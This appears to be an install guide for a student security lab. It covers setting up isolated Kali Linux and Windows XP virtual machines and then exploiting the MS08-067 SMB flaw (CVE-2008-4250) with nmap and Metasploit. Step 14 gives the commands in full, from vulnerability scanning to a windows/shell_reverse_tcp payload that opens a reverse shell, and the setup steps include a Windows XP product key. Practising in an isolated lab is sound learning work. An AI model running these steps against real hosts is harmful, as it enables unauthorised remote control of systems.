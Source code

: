 # INSTALL DOCUMENT

## Get Started With Our Project!

1. Enable virtualization on your windows machine by searching “Turn windows feature on or off in windows search bar.

2. You will be prompted with many folders, check the options (virtual Machine Platform, Windows hypervisor Platform) press ok and it will prompt you to restart your machine, then restart.

3. If still needed, enable virtualization from bios by following this [video](https://youtu.be/LQIyowZMiY8?si=hLTgTE97Z5RX1dJS).

4. Now you can download VMware Workstation Pro for free by visiting this [site](https://access.broadcom.com/default/ui/v1/signin/).

5. Create an account with broadcom.

6. Go to software > VMware Cloud Foundation > MyDownloads > VMware Workstation Pro > VMware Workstation Pro 17.0 Windows > latest release. Or VMware Workstation Player.  If you have trouble downloading(which probably you will have) follow this youtube [video](https://youtu.be/agw2i6QddvE?si=mT8Ux7C42ign7Ioo).

7. Go on the Kali Linux [website](https://www.kali.org/get-kali/#kali-installer-images) and downloaded the recommended Kali ISO file installer.

8. Then follow this [YouTube tutorial](https://www.youtube.com/watch?v=U0AMu3rznc4)

9. Then go on [archive.org](https://archive.org/details/WinXPProSP1) website and download windows xp iso file.

10. Install and setup windows xp vmware workstation 17 while watching this [youtube video](https://www.youtube.com/watch?v=ghr5ef-pxXM) and make sure to enter this product key: DF32F-Q323T-JH3HT-QRG42-34YX8.

11. Setup vm machines settings by visiting this [git repository](https://github.com/Ibrahimelz/ASPS.git).

12. download it and follow the instructions in the scripts/VMware_files to isolate your machines correctly.

13. Then power on both kali linux and windows xp virtual machines.

14. Then open terminal on kali linux and write the following commands:
    - `ifconfig` or `ip address show` to know your own ip address.

    - `ping [target machine’s ip]` to check if the other machine is up(checks if the target machine is up and reachable).

    - `nmap -sV [target machine’s ip]` scans the version of service (operation system) of the targeted machine .

    - `nmap -p 1-65535 --script vuln [target machine’s ip] -Pn` scans the target machine by running the "vuln" category of scripts to check for common vulnerabilities on the machine(scans the target machine to find out the version of the operating system and services running on it).

    - have the vulnerability’s `IDs: CVE which is CVE-2008-4250` identify the vulnerability to work with by its Common Vulnerabilities and Exposures (CVE) ID, in this case, CVE-2008-4250.

    - `sudo msfconsole` the command to run metasploit.

    - `search CVE-xxxx-xxxx` search the vulnerability found by nmap. In this case `CVE-2008-4250`.

    - take the name of the exploit which is **exploit/windows/smb/ms08_067_netapi** the machine running is vulnerable to this exploit.

    - `use [exploit name]` to go on that exploit to set it up to use it (load the exploit by entering its name).

    - `show options` shows the exploit's information for necessary actions to set up the exploit.

    - `set RHOSTS [target machine’s ip]` set the target machine as the RHOST (remote host).

    - `set LHOST [attacker machine's ip]` this field will be filled with a default value such as **127.0.0.0** it is recommended to change that.

    - `set LPORT 4444` this field will also be filled but make sure that the port is **4444** as sometimes it will change to **8080**.

    - `show payloads` and choose the needed payload, in our case we tried using a shell payload named **windows/shell_reverse_tcp** the payload is the action to perform on the target machine, in this case it will take control of the shell by reverse tcp.

    - `exploit` or `run` Execute the exploit to perform the intended action on the target machine and voila, you have access to the victim’s command shell as a powerful use.

    - Then if you want to close everything you need to do `cntrl + c` to get out of the windows xp cmd, then `exit` to get out of the metasploit tool. Then you simply close the terminal, then you can shut down both virtual machines.
